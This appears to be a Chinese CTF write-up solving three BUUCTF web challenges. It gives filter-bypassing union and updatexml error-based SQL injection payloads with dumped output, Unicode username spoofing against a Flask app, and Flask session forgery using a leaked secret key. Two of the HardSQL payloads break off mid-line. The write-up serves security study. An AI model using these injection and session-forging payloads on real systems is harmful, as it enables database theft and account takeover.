





# BUUCTF web记录3


## 0x00 [极客大挑战 2019]BabySQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]BabySQL)

打开题目，还是熟悉的用户名密码注入界面


首先判断闭合类型，用户名随便写，密码栏填个`b'`，发现报错，说明查询语句是单引号闭合。


然后尝试一下密码`b' or 1=1 #`，发现报错信息中只有`'1=1 #''`。一开始我也不知道是怎么回事，查阅资料之后才知道，原来有的waf会对`or`、`select`等SQL语句关键字做过滤，比如直接替换为空，所以这题要使用[双写绕过](https://blog.csdn.net/m0_51504576/article/details/115832188)。



试着使用union查询，输入`b' ununionion seselectlect 1,2,3 #`，显示成功登录信息，说明被查询的表的列数为3。


接下来就是套路化的操作，精髓是使用`information_schema`等记录数据库自身信息的数据库，以及`group_concat()`函数。因为看到了2和3的回显，所以把2和3替换为其它表达式可以进行注入。

懒得放截图，直接把回显结果贴一下。

首先查看当前数据库

````sql
b' ununionion seselectlect 1,2,database() #
````

```
Hello 2！
Your password is 'geek'
```

再查看所有数据库

````sql
b' ununionion seselectlect 1,2,group_concat(schema_name)frfromom (infoorrmation_schema.schemata) #
````

```
Hello 2！
Your password is 'information_schema,mysql,performance_schema,test,ctf,geek'
```

看到一个`ctf`库，再去爆这个数据库的表

```sql
b' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables) whwhereere table_schema="ctf" #
```

```
Hello 2！
Your password is 'Flag'
```

其中有个`Flag`表，然后再去爆字段

````sql
b' ununionion seselectlect 1,2,group_concat(column_name) frfromom (infoorrmation_schema.columns) whwhereere table_name="Flag"
````

```
Hello 2！
Your password is 'flag'
```

其中有`flag`字段，再去爆数据

```sql
b' ununionion seselectlect 1,2,group_concat(flag)frfromom(ctf.Flag)
```

拿到flag

```
Hello 2！
Your password is 'flag{b11bfeba-d864-4a0a-97f6-77e3ef266da9}'
```

个人感觉，这题的要点在于数据库本身信息数据库的内容，以及`group_concat`的使用，双写绕过其实是个很简单的东西。

### 参考链接：

- [information_schema数据库](https://www.cnblogs.com/kankanhua/p/6484972.html)

-  [group_concat()函数](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)

## 0x01 [极客大挑战 2019]HardSQL

[题目链接](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]HardSQL)

可以试出是单引号闭合，但是空格被过滤了，所以使用报错注入

```
b'or(updatexml(1,concat(0x7e,(select(database())),0x7e),1))#
```

```
XPATH syntax error: '~geek~'
```

找到`geek`数据库，然后又是类似的程序化操作，爆库、爆表、爆字段、爆数据

```sql
#==爆geek数据库中的表==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`table_name`,'@'))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))#

#==回显结果==
XPATH syntax error: '~H4rDsq1@~'

#==爆列名==
b'or(updatexml(1,concat(0x7e,(select(group_concat(`column_name`,'@'))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))#

#==回显结果==
XPATH syntax error: '~id@,username@,password@~'

#猜测flag内容在password字段里
#==爆password数据==
b'or(updatexml(1,concat(0x7e,(select`password`from`H4rDsq1`where`password`like('flag

#==回显结果==
XPATH syntax error: '~flag{b4541970-14a3-4581-ae1f-30'

#发现只有一半的flag，所以还需要
#==爆破==
b'or(updatexml(1,concat(0x7e,right((select`password`from`H4rDsq1`where`password`like('flag

#==回显结果==
XPATH syntax error: '~0-14a3-4581-ae1f-303399d179f8}~'
```

这题的主要知识点就是利用`updatexml()`和`extractvalue()`函数进行报错注入。使用`concat()`函数，再加上`~`或者`@`等能够引起路径参数报错的字符，将形如`concat(0x7e, 语句, 0x7e)`这样的结果作为参数，就能够得到`XPATH syntax error: '回显结果'`这样的报错信息，实现注入。

### 参考链接：

- [https://blog.csdn.net/Xxy605/article/details/116999699](https://blog.csdn.net/Xxy605/article/details/116999699)
- [SQL报错注入攻击中的updatexml()函数](https://blog.csdn.net/weixin_45738112/article/details/105131866)

## 0x02 [HCTF 2018]admin

[题目链接](https://buuoj.cn/challenges#[HCTF%202018]admin)

这是一道很有趣的题，网站提供了注册、登录、修改密码等功能。

看源码大致可以感觉到，需要你以`admin`身份登录，才能够获取flag，但是`admin`是已经注册过的用户，所以在不知道`admin`密码的情况下无法登录。



查阅一些wp之后，可以得到3种解法。

### 解法1：弱密码

这是很扯的一个解法，可以理解为，机缘巧合，直接试出来了`admin`的密码是`123`🤣，登录拿到flag

### 解法2：unicode欺骗

预期解之一。查看网页源码可以看到该web应用是一个flask应用，源码地址为[https://github.com/woadsl1234/hctf_flask](https://github.com/woadsl1234/hctf_flask)



查看源码中的路由逻辑`routes.py`，其中的`login`与`change`路由处理逻辑使用了过时版本twisted框架中的`nodeprep.prepare()`函数，该函数会将`ᴬ`转换为`A`，然后转换为小写的`a`（这个知识点我也不知道获取的渠道是什么）。

```python
@app.route('/login', methods = ['GET', 'POST'])
def login():
    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = LoginForm()
    if request.method == 'POST':
        name = strlower(form.username.data) //<------就在这里使用了一个自定义的strlower()函数
        session['name'] = name
        user = User.query.filter_by(username=name).first()
        if user is None or not user.check_password(form.password.data):
            flash('Invalid username or password')
            return redirect(url_for('login'))
        login_user(user, remember=form.remember_me.data)
        return redirect(url_for('index'))
    return render_template('login.html', title = 'login', form = form)

...

def strlower(username):
    username = nodeprep.prepare(username)
    return username
```


所以Unicode欺骗的做法就是先注册一个`ᴬDMIN`用户，然后修改密码。在注册与修改密码的过程中username会发生如下转变`ᴬDMIN`->`Admin`->`admin`，所以相当于能够控制`admin`用户的密码，然后就能够以`admin`用户的身份登录，获取flag。


### 解法3： 修改flask session

那个web应用是个flask应用，flask是将`session`保存在本地的，并且没有做加密，而是仅仅进行了签名以防篡改，而搜索源代码可以看到其签名使用的密钥为`ckj123`。

```python
import os

class Config(object):
    SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'
    SQLALCHEMY_DATABASE_URI = 'mysql+pymysql://root:adsl1234@db:3306/test'
    SQLALCHEMY_TRACK_MODIFICATIONS = True
```

所以，我们可以用burp拦截普通用户登录后查看Index页面的请求，再使用[flask session编解码工具](https://github.com/noraj/flask-session-cookie-manager)解码拦截到的`session`，然后修改其中的用户ID，再重发请求，即可获得flag。



将`name`改为`admin`，再进行签名。




### 参考链接：

- [https://blog.csdn.net/mochu7777777/article/details/109302175](https://blog.csdn.net/mochu7777777/article/details/109302175)

- [Unicode Character Table](https://unicode-table.com/en/)
- [客户端 session 导致的安全问题](https://www.leavesongs.com/PENETRATION/client-session-security.html)


